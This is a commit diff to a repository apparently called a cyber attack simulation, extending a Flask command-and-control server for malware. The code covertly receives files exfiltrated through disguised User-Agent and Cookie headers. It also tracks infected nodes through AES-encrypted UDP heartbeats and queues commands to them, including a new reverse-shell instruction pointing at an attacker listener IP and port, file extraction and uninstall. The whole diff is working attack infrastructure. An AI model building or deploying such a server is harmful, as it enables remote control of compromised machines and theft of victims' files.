

Before and after one commit to seal9055/cyber_attack_simulation, a Flask app: page /cmd in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (217-1046 px from the left). Run offline with Flask 2, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1); lists and menus that the app fills with data are empty.

Commit message:
Added shell command

```diff
--- a/C2/src/main.py
+++ b/C2/src/main.py
@@ -3,10 +3,11 @@ import socket
 import string
 import base64
 import threading
+import time
 from Crypto.Cipher import AES
 from Crypto.Hash import SHA256
 from Crypto.Random import get_random_bytes
-from Crypto.Util.Padding import unpad
+from Crypto.Util.Padding import unpad, pad
 from flask import Flask, request, Response, session, render_template, redirect
 from access import *
 
@@ -23,19 +24,26 @@ print(key.hex())
 
 # Holds file fragments during exfiltration
 # When the file is completely sent, it is removed from here and reconstructed
-exfil_files = []
+exfil_files = {}
 
 # Holds messages for malware
-message_buffer = []
+message_buffer = {}
 # Holds node information
-nodes = []
+nodes = {}
+
+# Locks
+exfil_files_lock = threading.Lock()
+message_buffer_lock = threading.Lock()
+nodes_lock = threading.Lock()
 
 
 # Takes data from "exfil_files" and constructs the original file
 def process_exfil_file(sender):
+    exfil_files_lock.acquire()
     nonce = exfil_files[sender]['nonce']
     ciphertext = exfil_files[sender]['data']
     exfil_files.pop(sender)  # remove once we get the data (if it fails we don't want it sitting in our list)
+    exfil_files_lock.release()
 
     cipher = AES.new(key, AES.MODE_CBC, nonce)
     plaintext_encoded = unpad(cipher.decrypt(ciphertext), AES.block_size)  # decrypt contents
@@ -63,10 +71,14 @@ def handle_exfil_chunk(data, sender, cont):
     if "_" in data:  # First data packet includes the nonce
         nonce_encoded = data[0:len(data)-1]
         nonce = base64.b64decode(nonce_encoded)
+        exfil_files_lock.acquire()
         exfil_files[sender] = {'nonce': nonce, 'data': ''}  # relying on the fact that the sender's IP wont change before the file is received
+        exfil_files_lock.release()
     else:  # Second and beyond packets are file contents
         content = base64.b64decode(data)
+        exfil_files_lock.acquire()
         exfil_files[sender]['data'] += content
+        exfil_files_lock.release()
 
     if cont == 'close':
         return Response()
@@ -90,7 +102,40 @@ def command():
             if SHA256.new(candidate_authcode.encode()).hexdigest() == authcode:
                 session['logged_in'] = True
             return redirect('/cmd')
-    return render_template('command.html')
+    return render_template('command.html', nodes=nodes.values(), current_time=time.time(), round=round)
+
+
+@app.route('/ndc', methods=['GET', 'POST'])
+@is_logged_in
+def node_command():
+    if request.method == 'POST':
+        if {'listenerIP', 'listenerPort', 'nodeID'}.issubset(request.form.keys()):
+            listener_ip = request.form['listenerIP']
+            listener_port = request.form['listenerPort']
+            node_id = request.form['nodeID']
+            message = "shell "+listener_ip+" "+listener_port
+            message_buffer_lock.acquire()
+            message_buffer[node_id].append(message)
+            message_buffer_lock.release()
+        return redirect('/cmd')
+    else:
+        if 'node' not in request.args or 'action' not in request.args:
+            return redirect('/cmd')
+        if request.args['action'] not in ['1', '2', '3'] or request.args['node'] not in nodes.keys():
+            return redirect('/cmd')
+        if request.args['node'] not in message_buffer:
+            message_buffer[request.args['node']] = []
+        if request.args['action'] == '1':  # Extract File
+            pass
+        elif request.args['action'] == '2':  # Shell
+            pass
+        else:  # Uninstall
+            message_buffer_lock.acquire()
+            message_buffer[request.args['node']].append("uninstall")
+            message_buffer_lock.release()
+            return redirect('/cmd')
+
+        return render_template('node_command.html', id=request.args['node'], action=request.args['action'])
 
 
 # Logout function
@@ -102,7 +147,7 @@ def logout():
 
 
 # This is the exfiltration mechanic
-# The malware makes the user-agent include "Loonix" instead of "Linux", and
+# The malware makes the user-agent include "Linix" instead of "Linux", and
 # sends data in the Cookie field of the header
 # If there is more data to send, the malware adds the "Connection: keep-alive" field
 # and the server will send back a 307 status
@@ -111,7 +156,7 @@ def logout():
 @app.errorhandler(404)
 def handle_404(e):
     user_agent = request.headers.get('User-Agent')
-    if 'Loonix' in user_agent:
+    if 'Linix' in user_agent:
         cont = request.headers.get('Connection')
         sender = request.environ['REMOTE_ADDR']
         resp = handle_exfil_chunk(request.headers.get('Cookie'), sender, cont)
@@ -128,20 +173,51 @@ def web_backend():
 
 
 # Handles UDP messages from server
-def handle_message(message, addr):
+def handle_message(message, addr, server_socket):
     print(addr)
-    print(message)
+    node_id = -1
     # Process Message
-    nonce_encoded, ciphertext_encoded = message.decode().strip().split("_")
-    nonce = base64.b64decode(nonce_encoded)
-    ciphertext = base64.b64decode(ciphertext_encoded)
-    cipher = AES.new(key, AES.MODE_CBC, nonce)
-    plaintext = unpad(cipher.decrypt(ciphertext), AES.block_size)
-    node_id, message_encoded = plaintext.decode().split("_")
-    message = base64.b64decode(message_encoded).decode().strip()
+    try:
+        nonce_encoded, ciphertext_encoded = message.decode().strip().split("_")
+        nonce = base64.b64decode(nonce_encoded)
+        ciphertext = base64.b64decode(ciphertext_encoded)
+        cipher = AES.new(key, AES.MODE_CBC, nonce)
+        plaintext = unpad(cipher.decrypt(ciphertext), AES.block_size)
+        node_id, message_encoded = plaintext.decode().split("_")
+        message = base64.b64decode(message_encoded).decode().strip()
+    except ValueError:
+        print("Bad encryption key or bad message format")
 
+    print(node_id)
     if message == 'heartbeat':
+        nodes_lock.acquire()
+        nodes[node_id] = {'id': node_id, 'ip': addr[0], 'port': addr[1], 'time': time.time()}
+        nodes_lock.release()
+        message_buffer_lock.acquire()
+        if node_id not in message_buffer:
+            message_buffer[node_id] = []
+        if len(message_buffer[node_id]) == 0:
+            cmd = "none"
+        else:
+            cmd = message_buffer[node_id].pop(0)
+        message_buffer_lock.release()
+        plaintext = cmd.encode()
+        nonce = get_random_bytes(16)
+        cipher = AES.new(key, AES.MODE_CBC, nonce)
+        ciphertext = cipher.encrypt(pad(plaintext, AES.block_size))
+        nonce_encoded = base64.b64encode(nonce).decode()
+        ciphertext_encoded = base64.b64encode(ciphertext).decode()
+        response_message = nonce_encoded + "_" + ciphertext_encoded
+        server_socket.sendto(response_message.encode(), addr)
+
         print('Heartbeat noticed')
+    elif message == 'uninstall ack':
+        nodes_lock.acquire()
+        nodes.pop(node_id)
+        nodes_lock.release()
+        message_buffer_lock.acquire()
+        message_buffer.pop(node_id)
+        message_buffer_lock.release()
     else:
         print(message)
     return
@@ -163,7 +239,7 @@ def command_server():
         recv = server_socket.recvfrom(buffer_size)
         message = recv[0]
         addr = recv[1]
-        handle_message(message, addr)
+        handle_message(message, addr, server_socket)
 
 
 x = threading.Thread(target=command_server)
--- a/C2/src/templates/command.html
+++ b/C2/src/templates/command.html
@@ -3,7 +3,31 @@
 {% block body %}
 
     {% if session.logged_in %}
-        <h2>Welcome, commander</h2>
+        <h2>Welcome, Commander</h2>
+        <br/>
+        <table class="table table-striped">
+            <thead>
+                <tr>
+                    <th scope="col">Node ID</th>
+                    <th scope="col">IP Address</th>
+                    <th scope="col">Last Seen</th>
+                </tr>
+            </thead>
+            <tbody>
+                {% for node in nodes %}
+                    <tr>
+                        <td>{{node.id}}</td>
+                        <td>{{node.ip}}</td>
+                        <td>{{round(current_time - node.time)}} seconds ago</td>
+                        <td>
+                            <a href="/ndc?node={{node.id}}&action=1" class="btn btn-primary">Extract Files</a>
+                            <a href="/ndc?node={{node.id}}&action=2" class="btn btn-primary">Shell</a>
+                            <a href="/ndc?node={{node.id}}&action=3" class="btn btn-danger">Uninstall</a>
+                        </td>
+                    </tr>
+                {% endfor %}
+            </tbody>
+        </table>
         <a href="/lgt" class="btn btn-primary">Logout</a>
     {% else %}
         <form method="POST" action="">
```
Also changed, not shown: C2/src/templates/node_command.html (added, +29 -0 lines), C2/src/test/testUDPClient.py (+27 -4 lines).
